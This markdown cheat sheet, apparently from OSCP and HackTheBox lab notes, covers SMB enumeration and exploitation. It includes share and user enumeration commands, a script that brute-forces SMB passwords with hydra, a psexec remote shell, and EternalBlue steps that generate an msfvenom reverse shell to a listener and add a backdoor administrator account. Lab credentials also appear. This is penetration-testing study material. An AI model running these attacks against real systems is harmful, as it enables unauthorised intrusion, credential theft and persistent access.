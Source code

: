 # (139,445) SMB

<details>

<summary>List shares</summary>

```bash
smbclient -L //10.130.40.80 -N
```

```bash
nxc smb 10.11.1.123 -u '' -p ''
```

#### List all files in a share recursively

```bash
smbclient //10.11.1.231/home -N -c 'recurse;ls'
```

```bash
smbmap -H <ip> -R
```

</details>

<details>

<summary>SMB Version </summary>

```bash
smb_version 10.11.1.115
```

* Used this [tool](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but changed `tap0` to `tun0`

### SMB1

* Susceptible to known attacks (Eternal blue , wanna cry)
* Disabled by default in newer Windows version
* Versions:&#x20;
  * Windows 2000, XP and Windows 2003

### SMB2

* Reduced "chattiness" of SMB1
* Guest access disabled by default
* Versions:&#x20;
  * SMB2: Windows Vista SP1 and Windows 2008
  * SMB2.1: Windows 7 and Windows 2008 R2

### SMB3

* Guest access disabled
* Uses encryption (most secure)
* Versions:
  * Windows 8 and Windows 2012.

</details>

<details>

<summary>SMB Users Enumeration</summary>

```bash
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```

</details>

<details>

<summary>Connect to shares</summary>

```bash
smbclient //10.10.215.173/milesdyson -U=milesdyson

impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
shares --> to see available SMB shares
use <share_name> --> switch to this SMB share


# List shares & view permissions
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --shares
# Dump all files from all readable shares
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k -M spider_plus
# Get Specific File
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --get-file 'Network Security Changes.pdf' /tmp/Network_Security_Changes.pdf --share "Public" 
```

Spaces in share name

```bash
smbclient "//10.11.1.136/Bob Share/" -N
```

</details>

<details>

<summary>Increase Timeout For Large Files</summary>

```bash
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
timeout 120
iosize 16384
```

</details>

<details>

<summary>Copy all files from SMB share</summary>

```bash
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
```

</details>

<details>

<summary>Enum4linux</summary>

```
enum4linux -a 10.11.67.208
```

</details>

<details>

<summary>Nmap</summary>

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 445 -script vuln 10.10.10.4
</strong></code></pre>

```bash
nmap --script=smb-enum-shares <ip>
```

```bash
nmap --script smb-* -p 139,445, 172.21.0.0
```

</details>

<details>

<summary>Mounting SMB Shares</summary>

Use `cp` to copy large files from SMB shares.

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

Specifying credentials:

```bash
mount -t cifs -o username=V.Ventz //192.168.231.175/"Password Audit" /home/kali/Documents/pg_practice/192.168.231.175/share
```

</details>

<details>

<summary>SMB to Reverse shell</summary>

<pre class="language-bash"><code class="lang-bash"><strong>/usr/share/doc/python3-impacket/examples/psexec.py username:password@hostIP
</strong></code></pre>

PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials

</details>

<details>

<summary>HAIL MARY SCRIPT</summary>

```bash
smb_allenum 10.10.10.10
```

```bash
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```

</details>

<details>

<summary>MS17-010 (Eternal Blue)</summary>

CVE-2017-0143

1. `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell.exe
    ```
3. Edit the following section inside the `zzz_exploit.py` file.

<img src="../.gitbook/assets/image (24).png" alt="Before edit" data-size="original">

<img src="../.gitbook/assets/image (296).png" alt="After edit" data-size="original">

* If received `Not found accessible named pipe` --> use SMB Guest authentication creds instead (guest:)

### Create a user with admin rights (windows)

Sometimes it may not work, then need to add user and place user in administrator group.

```python
 def smb_pwn(conn, arch):
     smbConn = conn.get_smbconnection()
     service_exec(conn, r'cmd /c net user bill pass /add')
     service_exec(conn, r'cmd /c net localgroup administrators bill /add')
```

4. Setup nc listener and run `python2.7 zzz_exploit.py 10.10.10.4`

</details>
